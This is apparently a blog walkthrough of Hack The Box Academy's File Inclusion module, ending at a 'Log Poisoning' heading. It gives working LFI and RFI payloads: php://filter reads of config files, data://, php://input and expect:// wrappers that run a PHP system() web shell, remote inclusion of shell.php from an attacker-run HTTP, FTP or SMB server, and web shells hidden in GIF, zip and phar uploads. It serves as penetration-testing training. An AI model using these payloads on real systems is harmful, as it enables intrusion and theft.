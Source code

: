 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Inclusion"
description: "Explore this detailed walkthrough of Hack The Box Academy's File Inclusion module. Learn effective techniques to perform Local file inclusion (LFI), Remote File Inclusion (RFI) and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-12-03 21:05
image:  /images/htb/file-inclusion/logo.png
tags:   [lfi,rfi,cbbh]
categories: [htbacademy]
---
```


## Explore this detailed walkthrough of Hack The Box Academy's File Inclusion module. Learn effective techniques to perform Local file inclusion (LFI), Remote File Inclusion (RFI)

>
<b>References:</b>
<br/>
<a href="https://academy.hackthebox.com/module/23/section/250">HTB - File Inclusion</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-inclusion/File_Inclusion_Module_Cheat_Sheet.pdf">HTB - File Inclusion - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md">PayLoadsAllTheThings - File inclusion</a><br/>
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion">HackTricks - File inclusion</a><br/>




## Basic Bypasses - Exercise
> The web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt

### Set Up the LFI Wordlist
```
sudo apt install seclists
```

We’ll use the `LFI-Jhaddix.txt` wordlist, found at:
```
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```

This list includes paths that can reveal LFI vulnerabilities in web applications.

### Send the Request to Caido Automate

Mark the Payload Position: Send the request to Caido’s Automate tool and highlight the `es.php` part of the path as the payload position.

### Configure Payload Settings
Open the `Payload Tab`: Click on the `Payload` tab on the right side of the Automate interface.
Choose Payload Type: Select `Simple List` as the payload type.
Load the LFI Wordlist: Point to the `LFI-Jhaddix.txt` path in your system, and load it as the payload list.

![Caido - LFI Automate](/images/htb/file-inclusion/basic-bypass-exercise-caido-automate.png)

### Adjust Preprocessors
Disable URL Encoding: Go to the `Preprocessors` tab and remove the `URL Encode` option. This ensures our payloads are sent exactly as they appear in the wordlist, which is essential for LFI testing.

### Increase Worker Count
Optimize Worker Settings: In the settings section, increase the number of workers to speed up the testing process by sending multiple requests in parallel.

### Filter Results by Response Length
After Caido completes sending requests:

Apply a `Length Filter`: Look through the responses for any with a length of `3833`, as this indicates a file or directory was successfully accessed, pointing to a potential LFI vulnerability.

![Caido - LFI Automate Result](/images/htb/file-inclusion/basic-bypass-exercise-caido-result.png)

## PHP Filters - Exercise
> Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

We'll use the `directory-list-2.3-small.txt` wordlist from the SecLists to perform web content discovery.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
![Ffuf - Content Discovery](/images/htb/file-inclusion/php-filters-ffuf-result.png)

After identifying the PHP file, we'll use the php://filter stream wrapper to encode the file's content in Base64 format. Replace {PHP_PAGE} with the name of the discovered PHP file:

```
php://filter/read=convert.base64-encode/resource={PHP_PAGE}
```

![PHP Filter Extract Source Code](/images/htb/file-inclusion/php-filters-base64-result.png)

We'll use Caido's built in Base-64 decode tool to decode the payload and read the database password.

![Extract database password](/images/htb/file-inclusion/php-filter-result.png)

## PHP Wrappers - Exercise

> Try to gain RCE using one of the PHP wrappers and read the flag at /

We'll read the php.ini file to check if `allow_url_include` is enable for us to use the [php data wrapper](https://www.php.net/manual/en/wrappers.data.php)

We'll use the below payload to read the `php.ini` file:

```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini
```

For `Nginx`:

```
php://filter/read=convert.base64-encode/resource=../../../..//etc/php/X.Y/fpm/php.ini
```

Different php wrappers to use:


- data:// (GET)

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
```

![Data php warpper](/images/htb/file-inclusion/php-wrappers-data.png)
- php://input (POST)

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

![Input php warpper](/images/htb/file-inclusion/php-wrappers-input.png)
- expect:// (GET)

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)

> Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

### HTTP

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```
sudo python3 -m http.server <LISTENING_PORT>
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

![RFI HTTP Result](/images/htb/file-inclusion/rfi-http-result.png)

### FTP

```
sudo python -m pyftpdlib -p 21
```

I ran into the following issue when trying to use pyftdlib: `/usr/bin/python: No module named pyftpdlib`

```
sudo apt-get install python3-pyftpdlib
```

![RFI FTP Result](/images/htb/file-inclusion/rfi-ftp-result.png)

### SMB

```
impacket-smbserver -smb2support share $(pwd)
```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

## LFI and File Uploads

> Use any of the techniques covered in this section to gain RCE and read the flag at /

### Image Upload:

Create a malicious image containing a PHP web shell code:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Upload the malicious GIF file through the profile picture upload feature. After the upload is successful, navigate to the main page and apply the local file inclusion techniques covered in previous modules to execute the malicious shell.gif file.

```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=./profile_images/shell.gif&cmd=id
```

### Zip Upload

Create malicious zip file and use php zip wrapper to access the RCE.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload

Create a new php file with below script:

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile the script into a phar file and rename it to shell.jpg as follows:

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```


## Log Poisoning